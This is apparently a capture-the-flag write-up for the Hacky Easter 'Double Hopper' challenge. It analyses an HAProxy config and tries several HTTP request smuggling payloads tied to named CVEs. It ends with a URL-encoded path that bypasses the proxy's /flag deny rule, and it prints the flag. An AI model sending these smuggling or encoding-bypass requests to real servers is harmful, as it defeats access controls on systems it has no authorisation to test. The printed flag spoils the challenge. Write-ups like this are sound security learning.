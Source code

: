 ### Challenge description
Double hopper will not show you a double whopper.

[Double Hopper web site](http://ch.hackyeaster.com:2406/)

### Solution

config.txt
```
 global  
    daemon  
    maxconn 256  
  
defaults  
    mode http  
    timeout connect 5000ms  
    timeout client 50000ms  
    timeout server 50000ms  
  
frontend http-in  
    bind *:8000  
    default_backend servers  
    http-request deny if { path -m sub /flag }  
  
backend servers  
    http-reuse always  
    server server1 backend:5000 maxconn 32
```

The config gives the following clues
- points towards a haproxy setup with connection reuse enabled. 
- the frontend has a protected /flag route

This pointed me towards http request smuggling attacks. (The 'double' hopper also seems to refer to double http requests).

So after some investigation, we find quite a lot of recent haproxy issues concerning request smuggling.

https://nvd.nist.gov/vuln/detail/CVE-2021-40346
does not seem vulnerable to this attack or payload

```
GET /index HTTP/1.1
Host: ch.hackyeaster.com:2406
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 89

GET /flag HTTP/1.1
Host: ch.hackyeaster.com:2406
Connection: close
Content-Length: 0
```

- https://www.cvedetails.com/cve/CVE-2023-40225/
	- empty content header
	- seems like the service is not vulnerable to this
	- vulnerable versions
		- 2.0.32, 2.1.x and 2.2.x through 2.2.30, 2.3.x and 2.4.x through 2.4.23, 2.5.x and 2.6.x before 2.6.15, 2.7.x before 2.7.10, and 2.8.x before 2.8.2

-  https://www.cvedetails.com/cve/CVE-2023-25725/
	- empty header fields
	- fixed in 2.7.3, 2.6.9, 2.5.12, 2.4.22, 2.2.29, and 2.0.31.

The following HTTP request does get 2 separate responses.
```
GET /index HTTP/1.1
Host: ch.hackyeaster.com:2406
Connection: keep-alive
: value
Content-Length: 10


GET /flag HTTP/1.1
Host: ch.hackyeaster.com:2406
```


When trying to combine Transfer-Encoding and Content-Length headers, the proxy seems to prefer the Transfer-Encoding header.
The request below still returns a 403 for the smuggled request.

```
POST /index HTTP/1.1
Host: ch.hackyeaster.com:2406
Content-Type: text/plain
Content-Length: 78
Transfer-Encoding: chunked

0

GET /flag HTTP/1.1
Host: ch.hackyeaster.com:2406
Content-Length: 0

0
```

### Final solution
http://ch.hackyeaster.com:2406//static/%66%6C%61%67-55a8408e060a25096eb95be8b86f3a2c66f91193.png

URL encoding seems to be a backdoor to the flag which circumvents the request check.
I am not sure that this is the intended solution but it did work.
![[multi-hopper.png]]

he2024{Smu66l1m6_4ll_th3_t1m3!}